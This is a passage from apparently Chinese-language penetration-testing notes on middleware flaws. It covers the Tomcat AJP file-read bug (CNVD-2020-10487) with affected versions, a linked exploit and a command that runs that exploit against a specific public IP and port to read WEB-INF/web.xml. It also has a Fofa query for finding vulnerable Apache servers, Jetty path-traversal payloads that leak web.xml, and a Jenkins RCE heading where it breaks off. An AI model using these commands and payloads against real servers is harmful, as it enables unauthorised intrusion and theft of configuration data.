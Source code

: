 漏洞影响的产品版本包括：

Tomcat 6.*

Tomcat 7.* < 7.0.100

Tomcat 8.* < 8.5.51

Tomcat 9.* < 9.0.31

```
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi

D:\Python2.7\python.exe .\CNVD-2020-10487-Tomcat-Ajp-lfi.py 47.98.193.176 -p 35839 -f WEB-INF/web.xml
```

## 4、cve_2020_11996 拒绝服务

危害过大，权限无关，意义不大

## 5、cve_2020_9484 反序列化

利用条件太苛刻，意义不大

# Fofaviewer

server="Apache/2.4.49"


# 五、中间件-Jetty

CVE&信息泄漏
Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境。

```
/%2e/WEB-INF/web.xml

/.%00/WEB-INF/web.xml

/%u002e/WEB-INF/web.xml

/static?/WEB-INF/web.xml

/a/b/..%00/WEB-INF/web.
```

# 六、中间件-Jenkins
CVE&RCE执行

Jenkins是一个开源软件项目，是基于Java开发的一种持续集成工具，用于监控持续重复的工作。探针默认端口：8080

## 1、cve_2017_1000353 
